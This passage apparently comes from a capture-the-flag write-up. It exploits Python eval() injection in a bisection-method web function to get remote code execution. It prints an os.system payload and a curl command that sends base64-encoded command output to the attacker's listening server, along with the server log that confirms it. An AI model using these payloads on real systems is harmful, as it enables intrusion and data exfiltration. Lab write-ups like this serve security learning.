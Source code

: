 ```python
                yc = (c**6) - c - 1 #f(c)
                if yc > 0: #If f(c) is positive then we switch the b variable with c and get the new c variable
                    xb = c
                    c = (int(xa) + int(xb))/2
                elif yc < 0: #If (c) is negative then we switch the a variable instead
                    xa = c 
                    c = (int(xa) + int(xb))/2
        c_format = "{0:.4f}"
        root = float(c_format.format(c))
        return root
```


As  seen, this function uses `eval()`, this allows us to get `RCE`, The code constructs a string `added = xa + " + " + xb` and evaluates it via `c = eval(added)`. An attacker can craft malicious input for `xa` or `xb` to form a valid Python expression that executes arbitrary code.

We can now proceed to exploitation.


# EXPLOITATION
---

Let's try some basic `RCE` using this:

```python
__import__('os').system('id')
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504142444.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504142457.png)

We get an internal server error, this happens due to the payload being evaluated by the server and then converting the non numerical string (`xa`) to an integer, this causes a `ValueError`, which throws us the `500` status code error.

So, how can we achieve the `RCE`? 

We can simply set up a python server and encode the contents of the command we are dealing with using `base64` so we can notice if the server actually executes the command, let's do the following command:

```python
__import__('os').system('curl http://10.11.136.34:8000?pwned=$(id|base64)')
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250504142758.png)

We get `500` status code again, but if we check our python server, this happens:

```python
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.170.179 - - [04/May/2025 19:23:30] "GET /?pwned=dWlkPTEwMDAoYnJ1Y2UpIGdpZD0xMDAwKGJydWNlKSBncm91cHM9MTAwMChicnVjZSkK HTTP/1.1" 200 -
```
